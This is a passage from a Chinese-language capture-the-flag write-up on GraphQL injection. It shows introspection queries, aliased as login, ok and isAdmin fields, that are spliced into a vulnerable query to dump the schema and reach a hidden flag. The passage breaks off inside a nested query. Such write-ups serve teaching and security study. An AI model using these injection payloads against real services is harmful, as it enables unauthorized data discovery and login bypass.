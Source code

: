 > [!TIP]
> 就像在 SQL 中应当使用 prepared statement，在 GraphQL 中也应当使用 [variable](https://graphql.org/learn/queries/#variables) 来传递数据，而不应将用户输入直接拼接在查询中。

### Flag 2

schema 是未知的，要拿到 flag 就需要先获取 schema。GraphQL 提供了 [introspection](https://graphql.org/learn/introspection/) 功能，可以通过 GraphQL query 来查询 schema。

GraphQL introspection 有三个主要方法：

-   在任何地方都可以问 `__typename` 得到类型名
-   在 `Query` 可以问 `__type(name: "Type")` 获取特定类型的 schema
-   在 `Query` 可以问 `__schema` 获取整个 schema

通过 `__schema { types { ... } }` 就可以一次性获取整个 schema 中需要的信息：

```graphql
login: __schema {
  ok: __typename
  isAdmin: __typename
  username: types {
    name
    fields {
      name
      type {
        name
      }
    }
  }
}
```

而由于 flag 藏的不是特别深，也可以一层层问下去：

```graphql
__type(name: "Secret") {
  ok: name
  isAdmin: name
  username: fields {
    name
    type {
      name
      fields {
        name
        type {
          name
          fields {
            name
            type {
              name
              fields {
                name
                type {
                  name
                  fields {
                    name
                    type {
                      name
                      fields {
                        name
                        type {
                          name
                          fields {
                            name
                            type {
                              name
```